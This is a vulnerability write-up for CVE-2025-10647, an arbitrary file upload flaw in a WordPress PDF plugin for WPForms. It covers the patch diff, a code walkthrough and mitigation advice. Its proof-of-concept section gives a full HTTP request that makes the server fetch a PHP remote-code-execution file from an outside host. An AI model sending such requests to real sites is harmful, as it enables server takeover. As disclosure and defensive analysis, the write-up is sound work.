

# CVE-2025-10647 Analysis & POC


<!--more-->

## CVE & Basic Info

The **Embed PDF for WPForms** plugin for **WordPress** contains a vulnerability that allows **arbitrary file uploads** due to missing file type checks in the `ajax_handler_download_pdf_media` function in all versions up to and including **1.1.5**. This allows an authenticated attacker with access level **Subscriber** or higher to upload arbitrary files to the affected site's server, which may lead to **remote code execution**.

* **CVE ID**: [CVE-2025-10647](https://www.cve.org/CVERecord?id=CVE-2025-10647)
* **Vulnerability Type**: Arbitrary File Upload
* **Affected Versions**: <= 1.1.5
* **Patched Versions**: 1.1.6
* **CVSS severity**: High (9.9)
* **Required Privilege**: Subscriber
* **Product**: [WordPress Embed PDF for WPForms Plugin](https://wordpress.org/plugins/embed-pdf-wpforms/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **Embed PDF for WPForms**: **1.1.5** (vulnerable) and **1.1.6** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) or any diff tool to inspect and compare differences between versions.
* [**WPForms Plugin**](https://wordpress.org/plugins/wpforms-lite/)

## Analysis

### Patch Diff

```php {title="class-wpforms-field-pdf-viewer.php - v1.1.5" hl_lines=[8,11,21,22,23,24,28,29] data-open=true}
public function ajax_handler_download_pdf_media() {
    check_ajax_referer( 'epdf_wf_download_pdf_media' );

    if ( empty( $_POST['url'] ) ) {
        wp_send_json_error();
    }

    $url = esc_url_raw( wp_unslash( $_POST['url'] ) );

    // Download the file.
    $tmp_file = download_url( $url );
    if ( is_wp_error( $tmp_file ) ) {
        wp_send_json_error(
            array(
                /* translators: 1. An error message. */
                'msg' => sprintf( __( 'The download failed with error "%s"', 'embed-pdf-wpforms' ), $tmp_file->get_error_message() ),
            )
        );
    }
    // Move from a temp file to the uploads directory.
    $upload_dir = wp_upload_dir();
    $file_name  = wp_unique_filename( $upload_dir['path'], basename( $url ) );
    $path       = $upload_dir['path'] . DIRECTORY_SEPARATOR . $file_name;
    global $wp_filesystem;
    if ( ! class_exists( 'WP_Filesystem' ) ) {
        require_once ABSPATH . '/wp-admin/includes/file.php';
    }
    WP_Filesystem();
    $wp_filesystem->move( $tmp_file, $path );
    ...
}
```

In the vulnerable version, the `ajax_handler_download_pdf_media()` function downloads a PDF file from the provided URL into WordPress's Media Library via AJAX but does not check the file type or user capabilities.

> [!BUG]
> An attacker could upload a `.php` file to achieve RCE

```php {title="class-wpforms-field-pdf-viewer.php - v1.1.6" hl_lines=[4,18] data-open=true}
public function ajax_handler_download_pdf_media() {
    check_ajax_referer( 'epdf_wf_download_pdf_media' );

    if ( ! current_user_can( 'upload_files' ) ) {
        wp_send_json_error(
            array(
                'msg' => __( 'The download failed', 'embed-pdf-wpforms' ),
            )
        );
    }

    if ( empty( $_POST['url'] ) ) {
        wp_send_json_error();
    }

    $url = esc_url_raw( wp_unslash( $_POST['url'] ) );

    if ( ! wp_check_filetype( basename( $url ) )['type'] ) {
        wp_send_json_error(
            array(
                'msg' => __( 'The download failed', 'embed-pdf-wpforms' ),
            )
        );
    }

    // Download the file.
    $tmp_file = download_url( $url );
    if ( is_wp_error( $tmp_file ) ) {
        wp_send_json_error(
            array(
                /* translators: 1. An error message. */
                'msg' => sprintf( __( 'The download failed with error "%s"', 'embed-pdf-wpforms' ), $tmp_file->get_error_message() ),
            )
        );
    }
    // Move from a temp file to the uploads directory.
    $upload_dir = wp_upload_dir();
    $file_name  = wp_unique_filename( $upload_dir['path'], basename( $url ) );
    $path       = $upload_dir['path'] . DIRECTORY_SEPARATOR . $file_name;
    global $wp_filesystem;
    if ( ! class_exists( 'WP_Filesystem' ) ) {
        require_once ABSPATH . '/wp-admin/includes/file.php';
    }
    WP_Filesystem();
    $wp_filesystem->move( $tmp_file, $path );
    ...
}
```

The patch:

* Adds a user capability check:

```php
if ( ! current_user_can( 'upload_files' ) ) { ... }
```

Only users with upload capability can invoke the handler.

* Restricts accepted uploaded file types:

```php
if ( ! wp_check_filetype( basename( $url ) )['type'] ) { 
    wp_send_json_error(
        array(
            'msg' => __( 'The download failed', 'embed-pdf-wpforms' ),
        )
    );
}
```

[`wp_check_filetype()`](https://developer.wordpress.org/reference/functions/wp_check_filetype/) (WP Core) returns two keys:

```php
array(
    'ext'  => string|false, 
    'type' => string|false
)
```

If `type` is not found in [`wp_get_mime_types()`](https://developer.wordpress.org/reference/functions/wp_get_mime_types/) it returns false. By default this accepts only non-executable file types (does not accept `php`).

### Vulnerable Code

The `ajax_handler_download_pdf_media()` function:

1. Checks the CSRF nonce

```php
check_ajax_referer( 'epdf_wf_download_pdf_media' );
```

Searching for the `epdf_wf_download_pdf_media` key in the plugin source code directory


The nonce is created with key `_ajax_nonce` and stored in the `epdf_wf_pdf_viewer_strings` object — its value can be retrieved in the browser console by calling `epdf_wf_pdf_viewer_strings.nonce`


This nonce is generated after visiting the page created by **WPForms** using the **PDF Viewer**



The form is embedded into a WordPress Post/Page.

2. Validate incoming data

```php
if ( empty( $_POST['url'] ) ) {
    wp_send_json_error();
}
```

If the request has no `url`, the function returns a JSON error and stops execution.

3. Sanitize and obtain the URL

```php
$url = esc_url_raw( wp_unslash( $_POST['url'] ) );
```

* `wp_unslash()` removes slashes added by WordPress when sending POST data.
* `esc_url_raw()` sanitizes the URL before using it to download the file.

4. Download the file to the server (temporary)

```php
$tmp_file = download_url( $url );
```

* `download_url()` downloads the file from the URL to a temporary file on the server.
* Returns the path to the temporary file on success, or a `WP_Error` on failure.

```php
if ( is_wp_error( $tmp_file ) ) {
    wp_send_json_error(
        array(
            'msg' => sprintf( __( 'The download failed with error "%s"', 'embed-pdf-wpforms' ), $tmp_file->get_error_message() ),
        )
    );
}
```

* If the download fails → return JSON error with the error message.

5. Determine the upload directory and filename

```php
$upload_dir = wp_upload_dir(); 
$file_name  = wp_unique_filename( $upload_dir['path'], basename( $url ) );
$path       = $upload_dir['path'] . DIRECTORY_SEPARATOR . $file_name;
```

* `wp_upload_dir()` returns an array with upload directory info: path, URL, subdir, …
* `wp_unique_filename()` ensures the filename does not conflict with existing files.
* `$path` is the full path where the file will be saved.
* `$upload_dir['path']` typically looks like `wp-content/uploads/year/month`

6. Initialize the WordPress Filesystem

```php
global $wp_filesystem;

if ( ! class_exists( 'WP_Filesystem' ) ) {
    require_once ABSPATH . '/wp-admin/includes/file.php';
}

WP_Filesystem();
```

7. Move the temporary file to the uploads directory

```php
$wp_filesystem->move( $tmp_file, $path );
```

* Moves the file from `temp ($tmp_file)` to `uploads ($path)`.
* Uses `$wp_filesystem->move()` instead of `rename()` for compatibility with environments (`Direct`, `FTP`, …).

---

The `ajax_handler_download_pdf_media()` function is registered as a callback for the action hook:

```php
add_action( 'wp_ajax_epdf_wf_download_pdf_media', array( $this, 'ajax_handler_download_pdf_media' ) );
```

This means:

* `wp_ajax_` requests require the user to be logged in (at least a `Subscriber`) to be accepted.
* `epdf_wf_download_pdf_media` is the action passed as a parameter.

When a logged-in user sends a request to the `/wp-admin/admin-ajax.php` endpoint with `action=epdf_wf_download_pdf_media`, `ajax_handler_download_pdf_media()` is called to handle the request.

### Flow


graph TD
A["Subscriber POST -> /wp-admin/admin-ajax.php?action=epdf_wf_download_pdf_media&url=..."] --> B["ajax_handler_download_pdf_media()"]
B --> C["check_ajax_referer('epdf_wf_download_pdf_media')"]
C --> D["download_url($url) -> $tmp_file (temporary file)"]
D --> E{"is_wp_error($tmp_file) ?"}
E -- "yes" --> F["wp_send_json_error() -> STOP"]
E -- "no" -->  K["Uploaded file accessible → potential RCE"]


## Exploit

### Proof of Concept (PoC)

1. Visit the page containing the form created by **WPForms** using the **PDF Viewer**
2. Retrieve the nonce
3. Create a `.php` file containing RCE code and host it on the internet
4. Send a POST request with the `url` pointing to the hosted file

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=sub%7C1762165151%7C5VGNGPhUPc74oSqabIRMtpA8jrLrn2JYdg6Lc4fqU8I%7C69db0f51f219492ec3f150bb86bc1364f7cd33442587ddf3f1bf334e4cdec409; wp-settings-time-2=1761725656; wp-settings-4=libraryContent%3Dbrowse%26uploader%3D1%26mfold%3Do; wp-settings-time-4=1761637043; wp-settings-2=editor%3Dtinymce%26libraryContent%3Dbrowse; wp-settings-time-3=1761711790; wp-settings-3=libraryContent%3Dbrowse; _lscache_vary=fff4fa950d2b9daa95c3289bb2a7040a; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=sub%7C1762165151%7C5VGNGPhUPc74oSqabIRMtpA8jrLrn2JYdg6Lc4fqU8I%7Ca7cb9996e74be71e18c68f339c0ad07a43687c7eb701f89fe90374cc2a783131; wp-settings-time-5=1761992371
...

_ajax_nonce=ea2ccf0ccd&action=epdf_wf_download_pdf_media&url=https://github.com/w41bu1/w41test/raw/refs/heads/main/rce.php
```

5. Access the uploaded file and achieve RCE


## Conclusion

The vulnerability allowing **arbitrary file upload** in `ajax_handler_download_pdf_media()` was caused by missing checks for user capabilities and file type when downloading files from a URL, enabling an attacker with a Subscriber account to upload executable files (e.g., `.php`) and cause **RCE**. The developer fixed the issue by adding `current_user_can('upload_files')` and validating MIME types with `wp_check_filetype()` in version **1.1.6**. For affected sites, update to 1.1.6 immediately, inspect and remove suspicious files in the uploads directory, and review user permissions and logs for signs of exploitation.

## Key Takeaway

* Always check user capabilities (`current_user_can`) before performing uploads via AJAX.
* Always validate file type/MIME (`wp_check_filetype` / whitelist) before saving files.
* Quickly update plugins when patches are available; review uploaded files and logs after disclosure.
* Apply the principle of least privilege and monitor for anomalous activity in media/uploads.

## References

[Arbitrary File Upload](https://book.hacktricks.wiki/en/pentesting-web/file-upload/index.html)

[WordPress Embed PDF for WPForms Plugin <= 1.1.5 is vulnerable to Arbitrary File Upload](https://patchstack.com/database/wordpress/plugin/embed-pdf-wpforms/vulnerability/wordpress-embed-pdf-for-wpforms-plugin-1-1-5-authenticated-subscriber-arbitrary-file-upload-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-11-06-cve-2025-10647/  

